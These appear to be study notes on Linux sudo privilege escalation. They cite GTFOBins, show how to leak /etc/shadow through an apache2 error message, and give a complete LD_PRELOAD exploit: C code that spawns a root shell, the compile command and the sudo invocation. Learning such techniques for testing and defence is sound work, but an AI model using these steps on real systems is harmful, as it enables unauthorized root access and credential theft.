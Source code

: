 ## sudo

    sudo -l    // check programs that the current user can run as superuser
    
https://gtfobins.github.io/ : provides information on how any program, on which you may have sudo rights, can be used.

### leverage application functions

Some applications can leak information leveraging a function of the application.

Ex: apache2 -f /etc/shadow  will result in an error message that includes the first line of the /ect/shadow file.

### leverage LD_PRELOAD

LD_PRELOAD is an environment options that allows any program to use shared libraries [for an idea of its capabilities](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

May be revealed by sudo -l

Priviledge escalation steps:
* check for LD_PRELOAD (with the env_keep option)
* write a simple C code compiled a share object (.so) file
* run the program with sudo rights and the LD_PREFLOAD pointing to the .so file

Ex of C code: spawn a root shell

        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>

        void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
        }

Then compile:

        gcc -fPIC -shared -o shell.so shell.c -nostartfiles

Then run it:

        sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
        
## SUID



-------------
## 
